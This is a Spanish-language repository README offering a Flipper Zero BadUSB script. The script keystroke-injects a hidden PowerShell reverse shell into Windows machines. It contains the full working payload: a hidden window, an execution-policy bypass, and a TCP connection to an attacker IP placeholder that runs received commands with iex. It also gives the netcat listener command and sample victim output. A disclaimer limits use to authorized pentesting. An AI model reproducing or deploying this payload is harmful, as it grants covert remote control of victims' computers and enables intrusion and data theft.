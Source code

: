 # Reverse Shell Payload for Flipper Zero

Este repositorio contiene una **payload** para Flipper Zero que inicia una **reverse shell** en PowerShell de forma oculta, ideal para pruebas en entornos controlados.

---

## ⚙️ Requisitos

* Flipper Zero con firmware compatible (v0.54+).
* Ordenador atacante con `nc` o `rlwrap nc` escuchando en el puerto elegido.
* Windows victim con PowerShell instalado (Windows 7/10/11).

---

## 📜 Payload

Guarda este script en `/badusb/` de tu Flipper Zero (por ejemplo, `reverse_shell.txt`):

```txt
DELAY 1000
GUI r
DELAY 500

REM — 1ª PowerShell visible para poder teclear —
STRING powershell
ENTER
DELAY 100

REM — Lanza un PowerShell oculto con tu bucle de reverse‑shell y cierra este —
STRING Start-Process powershell.exe -WindowStyle Hidden -ArgumentList '-NoP -NonI -ExecutionPolicy Bypass -Command "$a=''System.Net.Sockets.TCPClient'';$x=New-Object ($a) ''<TU_IP_ATACANTE>'',<PUERTO>; $s=$x.GetStream(); $sr=New-Object System.IO.StreamReader($s); $sw=New-Object System.IO.StreamWriter($s); $sw.AutoFlush=$true; while(($l=$sr.ReadLine()) -ne $null){ $o=iex $l 2>&1|Out-String; $sw.WriteLine($o) }"' ; exit
DELAY 100
ENTER
```

> **Importante**: Sustituye `<TU_IP_ATACANTE>` y `<PUERTO>` por tu dirección IP y puerto de escucha.

---

## 🚀 Uso

1. **Configura** tu listener en Linux/macOS/Windows:

   ```bash
   rlwrap nc -l -v -n <PUERTO>
   ```
2. **Carga** el payload en tu Flipper Zero y ejecútalo en el equipo víctima.
3. Tras unos segundos, tu **listener** mostrará:

   ```text
   Connection received on <IP_VICTIMA> <PUERTO>
   whoami
   <USUARIO>\\<EQUIPO>
   ```
4. A partir de ahí, puedes enviar comandos (por ejemplo `dir`, `ipconfig`, etc.) y recibir la salida.

---

## 📖 Estructura del repositorio

```text
/ reverse_shell.txt    ← Payload para Flipper Zero
/ README.md           ← Esta guía
```

---

## ⚠️ Disclaimer legal

Este proyecto es **únicamente** para **fines educativos** y de **pentesting autorizado**. No debes usar este payload contra sistemas en los que no tengas **permiso expreso** para realizar pruebas de seguridad.

El autor no se hace responsable del uso indebido que se realice de este material. Asegúrate siempre de actuar de acuerdo con las leyes y regulaciones locales.

---

## 📜 Licencia

Este proyecto se distribuye bajo la licencia MIT. Puedes modificarlo y redistribuirlo, siempre manteniendo este aviso y la atribución al autor original.

By amis13
